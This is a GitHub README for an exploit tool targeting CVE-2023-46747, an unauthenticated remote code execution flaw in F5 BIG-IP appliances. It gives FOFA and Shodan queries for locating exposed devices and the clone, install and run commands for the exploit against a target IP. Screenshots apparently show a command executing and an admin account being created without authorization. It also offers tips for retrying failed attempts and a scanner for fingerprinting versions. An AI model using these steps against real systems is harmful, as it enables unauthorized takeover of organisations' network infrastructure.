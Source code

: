 # Vulnerability Details
1. fofa：`title="BIG-IP&reg;- Redirect"`; shodan: `title:"BIG-IP&reg;- Redirect"`
2. Affected versions: https://my.f5.com/manage/s/article/K000137353
# Vulnerability Recurrence
1. At this time, the user here is only `admin`:
![image](https://github.com/W01fh4cker/CVE-2023-46747-EXP/assets/101872898/9171b074-ef4b-41bb-bbb6-e40085e0fa9a)

2. Execute the script:
```
git clone https://github.com/W01fh4cker/CVE-2023-46747-RCE.git
cd CVE-2023-46747-RCE
pip install -r requirements.txt
python CVE-2023-46747-RCE.py -u https://192.168.161.190
# python CVE-2023-46747-RCE.py -u https://192.168.161.190 -p http://127.0.0.1:7890
```
Successfully executed command:  
![image](https://github.com/W01fh4cker/CVE-2023-46747-RCE/assets/101872898/64dbb6b4-cb32-4e31-bb53-9ad918097494)


3. A new user was successfully created without authorization here:
![image](https://github.com/W01fh4cker/CVE-2023-46747-RCE/assets/101872898/66fed85c-db33-49d5-8062-cd814f62cdbe)

# Shortcoming  
Exploitation fails in some versions, reference: https://twitter.com/joel_land/status/1729147886615818732.  

# Q & A  
1. Q: Token acquisition failed?  
   A: It cannot be said that there must be no vulnerability in the test site, because creating a user without authorization is not 100% successful. Sometimes you do not create a user in the first step due to some reasons, so the token in the second step cannot be obtained. Therefore, my suggestion is to try a few more times. If it does not work, it may mean that there is indeed no vulnerability.  
# Digression
You can use this script https://github.com/BishopFox/bigip-scanner to collect F5 BIG-IP version information. It's great!  
# Reference
https://github.com/projectdiscovery/nuclei-templates/pull/8500  
https://mp.weixin.qq.com/s/wUoBy7ZiqJL2CUOMC-8Wdg  
https://www.praetorian.com/blog/refresh-compromising-f5-big-ip-with-request-smuggling-cve-2023-46747
